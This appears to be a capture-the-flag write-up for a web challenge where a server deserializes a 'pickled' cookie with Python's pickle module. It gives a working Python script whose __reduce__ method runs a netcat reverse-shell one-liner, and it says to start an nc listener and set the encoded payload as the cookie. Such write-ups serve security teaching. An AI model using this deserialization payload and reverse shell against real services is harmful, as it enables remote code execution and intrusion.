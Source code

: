Vulnerability
-------------

Unsafe usafe of Python3 pickle module.

Exploit
-------

Click on the picture, it will take you to 141.85.224.101:8007/jar. Notice the `pickled` cookie.
Use `nc -nvlk 1234` to open a connection to your machine first.
Run this program that prints the encoded pickled object of this class that spawns a shell (change the ip to yours).

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled).decode("utf-8"))
```

Take the output and set it as the Cookie value. Make the request again.
You should have a shell now, perform a `cat` on the flag file.

Exploit in `../sol/solution.sh`.
